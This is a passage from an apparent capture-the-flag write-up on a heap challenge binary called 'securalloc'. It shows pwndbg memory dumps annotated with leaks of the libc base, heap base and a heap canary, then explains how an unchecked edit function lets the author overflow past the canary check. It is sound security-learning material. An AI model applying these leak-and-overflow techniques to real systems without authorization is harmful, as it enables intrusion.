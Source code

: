 1. There are datas left in the heap section that hasn't been cleared. Those are pointers from `FILE` structures and the stream datas from `/dev/urandom`. Those come from `secure_init` function as the function called `fopen()` that lying stream data in heap.

    ```terminal
    pwndbg> x/40gx 0x55cadc53e000
    0x55cadc53e000:	0x0000000000000000	0x0000000000021001
    0x55cadc53e010:	0x00000000fbad240c	0x0000000000000000
    0x55cadc53e020:	0x0000000000000000	0x0000000000000000
    0x55cadc53e030:	0x0000000000000000	0x0000000000000000
    0x55cadc53e040:	0x0000000000000000	0x0000000000000000
    0x55cadc53e050:	0x0000000000000000	0x0000000000000000
    0x55cadc53e060:	0x0000000000000000	0x0000000000000000
    0x55cadc53e070:	0x0000000000000000	0x00007fd6b90d4540 # leak libc_base
    0x55cadc53e080:	0x00000000ffffffff	0x0000000000000000
    0x55cadc53e090:	0x0000000000000000	0x000055cadc53e0f0 # leak heap_base
    0x55cadc53e0a0:	0xffffffffffffffff	0x0000000000000000
    0x55cadc53e0b0:	0x000055cadc53e100	0x0000000000000000
    0x55cadc53e0c0:	0x0000000000000000	0x0000000000000000
    0x55cadc53e0d0:	0x00000000ffffffff	0x0000000000000000
    0x55cadc53e0e0:	0x0000000000000000	0x00007fd6b90d26e0
    0x55cadc53e0f0:	0x0000000000000000	0x0000000000000000
    ```

    ```terminal
    pwndbg> x/40gx 0x55cadc53e000 + 0x200
    0x55cadc53e200:	0x0000000000000000	0x0000000000000000
    0x55cadc53e210:	0x0000000000000000	0x0000000000000000
    0x55cadc53e220:	0x0000000000000000	0x0000000000000000
    0x55cadc53e230:	0x00007fd6b90d2260	0x0000000000020dd1
    0x55cadc53e240:	0xf12516d8ca2e81b4	0x7e8b57554cc982e8
    0x55cadc53e250:	0xd692ccd79c247472	0x5004aee0dc637fc0
    0x55cadc53e260:	0x2c0400e06b223061	0x9c6b2b8d65e498ee
    0x55cadc53e270:	0x6f0e916c6c516f47	0x60dd7ea4d53a72de # leak heap_canary
    0x55cadc53e280:	0xd671437e9d5484b3	0x9e74ed4d0647b99c
    0x55cadc53e290:	0x6b7d8ba7e5cffd57	0xf0d7263adb25d3cd
    0x55cadc53e2a0:	0x3da1c028bde478f0	0xd42751adc0d8454c
    0x55cadc53e2b0:	0xa0024ff9bdfd0f8d	0x8dae4dcbdc733df8
    0x55cadc53e2c0:	0xa0b11197ff8da820	0xe2b9cf092ff1149b
    0x55cadc53e2d0:	0xcd52b1a42921b577	0xab0c51edf9703e49
    0x55cadc53e2e0:	0x33ff1298e2cd6628	0x201acdcc046bcda9
    ```

2. After leaking the heap_canary, we can bypass overflow checker by using function edit in securalloc binary. There isn't any buffer's length checking so we can just insert any data. Stop it by entering `\n` (newline).

    ```c
    int edit_C1A() // securalloc.elf
    {
    printf("Data: ");
    fn_read_B1A(ptr_malloc_202050);
    return puts("Updated!");
    }
    ```
